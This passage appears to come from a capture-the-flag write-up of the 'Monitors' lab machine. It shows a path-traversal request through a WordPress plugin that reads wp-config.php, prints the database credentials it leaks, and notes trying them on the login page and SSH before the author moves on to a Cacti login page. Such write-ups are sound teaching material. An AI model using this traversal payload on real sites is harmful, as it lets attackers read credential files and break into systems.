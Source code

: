 

This provides two things to look into:

1.  Re-check for wordpress configs in `/var/www/wordpress`
2.  Enumerate `cacti-admin.monitors.htb`

#### WordPress

On fetching the WordPress config from
`http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php`,
it contains the DB creds:



    /** The name of the database for WordPress */                                   
    define( 'DB_NAME', 'wordpress' );                                               
                                            
    /** MySQL database username */                                                  
    define( 'DB_USER', 'wpadmin' );
                                                                                    
    /** MySQL database password */          
    define( 'DB_PASSWORD', 'BestAdministrator@2020!' ); 



Unfortunately, this password doesn't log into
`http://monitors.htb/wp-login.php` or SSH as marcus. I'll keep them for
later potential uses.

### Cacti

#### Site / Login

This site is an instance of [Cacti](https://www.cacti.net/index.php), a
network graphing tool. I'm getting a login page:

![](/img/image-20210422131822235.png)
